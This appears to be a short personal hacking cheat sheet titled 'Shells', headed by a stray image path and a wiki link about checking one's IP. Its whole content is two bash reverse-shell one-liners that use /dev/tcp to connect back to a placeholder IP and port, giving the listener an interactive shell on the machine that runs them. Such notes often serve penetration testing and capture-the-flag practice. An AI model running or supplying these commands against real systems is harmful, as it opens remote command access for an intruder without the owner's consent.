 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```